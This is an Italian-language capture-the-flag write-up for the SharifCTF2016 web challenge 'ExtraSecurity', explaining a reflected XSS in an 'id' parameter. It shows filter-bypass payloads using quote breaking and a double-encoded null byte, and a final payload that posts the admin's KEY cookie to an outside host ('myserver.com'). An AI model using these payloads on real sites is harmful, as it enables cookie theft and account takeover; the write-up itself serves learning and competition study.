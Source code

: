 ```yaml
---
layout: post
title:  "SharifCTF2016 - ExtraSecurity"
date:   2016-12-19 15:30
categories: CTF
tags: [web,SharifCTF2016]
author: jbz
---
```


Questa sfida web richiedeva di fare 'firmare' all'utente amministratore del sito un numero.

![L'homepage della challenge](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_1.png)

veniva offerta la possibilità di firmare con la propria chiave (impostata dal server in un cookie `KEY`) o di richiedere all'amministratore attraverso un form di effettuare la firma per noi. Dal testo non era chiaro quale fosse esattamente la strada da prendere: se fosse necessario rubare il cookie all'admin o se bastasse effettivamente utilizzare il form con qualche modifica.
Il testo specificava esplicitamente che l'admin avrebbe utilizzato Chrome per vedere le richieste e che quindi sarebbe intervenuto l'XSS Auditor.

Il primo problema consisteva nel fatto che nella propria pagina per effettuare la firma, all'invio del form, veniva visualizzato un popup di errore e si veniva reindirizzati prima di qualsiasi altra azione.

![Il popup di errore prima del reindirizzamento](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_4.png)

`http://ctf.sharif.edu:8083/wait_and_real_sign.php?content=259&id=<team_id>`

Dal sorgente pagina si poteva notare questo codice:

```
<script>
    alert("Sorry, server is busy for a while!");
    document.location = "/index.php?id=eyJ0ZWFtaWQiOiIyNzkifS4xY0l4eEkud0pZRGN2QWdSMG03aGUxT0VmNEZiNHZjQThZ";
</script>
```
Che è quello che causava la reindirizzazione.

Più in basso si notava anche il seguente codice, che però non veniva eseguito:

```
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("MjU5"),
            content: "MjU5",
            key: key,
            id: 'eyJ0ZWFtaWQiOiIyNzkifS4xY0l4eEkud0pZRGN2QWdSMG03aGUxT0VmNEZiNHZjQThZ'
        };
        postForm('/sign_and_store.php', body);
    });
</script>
```

Con qualche test breve si intuiva subito che il campo GET `id` era plausibilmente vulnerabile ad XSS ma che un filtro custom bloccava le richieste contenenti la maggior parte delle keyword o simboli usati per tale scopo: eval, alert, document, this, etc. C'era inoltre un limite di caratteri che rendeva impossibile l'utilizzo di (jsfuck)[http://www.jsfuck.com].

La nostra idea era quella di sfruttare la vulnerabilità nel campo `id`, il cui contenuto veniva riflesso sia nel primo script che nel secondo per rubare il cookie `KEY` all'admin ed effettuare la firma in autonomia.

Cerchiamo quindi un payload che fermi l'esecuzione del primo script e che ci permetta invece di modificare l'url di destinazione in postForm nel secondo, il tutto senza venire bloccati dal filtro di Chrome.

Il primo step è trovare un modo per rompere il primo script ma non il secondo, e questo è possibile grazie alla scelta degli organizzatori di usare apici doppi (") nel primo e apici singoli (') nel secondo:

`http://ctf.sharif.edu:8083/wait_and_real_sign.php?id=<team_id>};prompt(c['KEY']);a={'p%27:'"&content=1`

Questo payload contiene un apice doppio alla fine che rompe la sintassi del primo script, mentre chiude con un apice semplice il campo id nel secondo script, aggiunge `prompt(c['KEY'])` (equivalente di `alert(c['KEY']` ma non filtrato), e crea un nuovo dict per completare la sintassi già esistente.

Risulta quindi

```
<script>
    alert("Sorry, server is busy for a while!");
    document.location = "/index.php?id=eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};prompt(c['KEY']);a={'p':'"";
</script>
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("MQ=="),
            content: "MQ==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};prompt(c['KEY']);a={'p':'"'
        };
        postForm('/sign_and_store.php', body);
    });
</script>

```

![PoC](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_2.png)

Ora il grosso problema era il fatto che anche qualsiasi declinazione della parola `post`, `xml` o simili faceva scattare il filtro.
Dopo diversi tentativi, avendo intuito che il filtro fosse realizzato applicativamente (e che quindi non ci fosse un WAF vero e proprio), ed essendo l'applicazione in PHP, iniziammo a provare inserendo null bytes (%00) e altri caratteri come %0a e %0d.
Una volta scoperto che effettivamente il filtro falliva a processare qualsiasi cosa posta dopo un null byte, continuando i test notammo che il bypass funzionava anche effettuando il double encode di %00, cioè %2500 il che preveniva che il null byte venisse stampato nella pagina, che per qualche motivo causava qualche problema nell'esecuzione dello script (al momento del writeup non riesco a riprodurre il problema..).

Il payload finale quindi consisteva in:

`http://ctf.sharif.edu:8083/wait_and_real_sign.php?id=<team_id>'};%0a/*%2500*/%0apostForm('http://myserver.com/', body);});garbage(x, function () {a={'p':'"&content=1`

Che risulta nel seguente codice:

```
<script>
    alert("Sorry, server is busy for a while!");
    document.location = "/index.php?id=eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};
/*%00*/
postForm('http://myserver.com/', body);});garbage(x, function () {a={'p':'"";
</script>
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("MQ=="),
            content: "MQ==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};
/*%00*/
postForm('http://myserver.com/', body);});garbage(x, function () {a={'p':'"'
        };
        postForm('/sign_and_store.php', body);
    });
</script>

```

![Gli errori nella console dimostrano la mancata esecuzione del primo script e la corretta sintassi del secondo](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_3.png)

Da `garbage` in poi il codice serviva solo per non causare errori di sintassi.
Da notare che il filtro XSS di Chrome in questo scenario non si è mai considerato in quanto la XSS non richiede tag HTML poiché il payload finisce già all'interno di tag `<script>`.

La richiesta di firma all'admin inviava una POST che conteneva un campo URL che lasciava intendere che fosse quello che l'admin avrebbe visitato per effettuare la firma. Bisognava quindi modificare quel campo con il payload descritto sopra.

Purtroppo non siamo riusciti a risolverla in tempo per ottenere il punteggio.